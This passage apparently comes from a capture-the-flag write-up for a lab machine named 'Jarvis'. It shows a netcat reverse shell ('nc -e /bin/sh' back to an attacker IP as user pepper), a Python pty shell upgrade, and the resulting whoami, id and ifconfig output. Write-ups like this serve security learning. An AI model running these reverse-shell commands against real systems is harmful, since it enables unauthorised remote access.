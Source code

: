We create a another listner:

```bash
nc -lvp 3333 
```

And use nc to create a new shell with user `pepper`:

```bash
nc -e /bin/sh 10.10.14.16 3333
```

And we upgrade the shell:

```bash
which python
# https://null-byte.wonderhowto.com/how-to/upgrade-dumb-shell-fully-interactive-shell-for-more-flexibility-0197224/
python -c 'import pty; pty.spawn("/bin/bash")'
^z
echo $TERM
stty -a
stty raw -echo && fg
# nc -lvp 3333
reset
xterm-256color
stty rows 47 columns 176
```

And check the shell information:

```bash
whoami
id
ifconfig
```

```
pepper@jarvis:/var/www/html$ whoami
pepper
pepper@jarvis:/var/www/html$ id
uid=1000(pepper) gid=1000(pepper) groups=1000(pepper)
pepper@jarvis:/var/www/html$ ifconfig
ens160: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.129.227.147  netmask 255.255.0.0  broadcast 10.129.255.255
        inet6 fe80::250:56ff:feb9:3149  prefixlen 64  scopeid 0x20<link>
        inet6 dead:beef::250:56ff:feb9:3149  prefixlen 64  scopeid 0x0<global>
        ether 00:50:56:b9:31:49  txqueuelen 1000  (Ethernet)
        RX packets 157639  bytes 15136297 (14.4 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 118101  bytes 27130988 (25.8 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
        RX packets 16216  bytes 2436718 (2.3 MiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 16216  bytes 2436718 (2.3 MiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

```
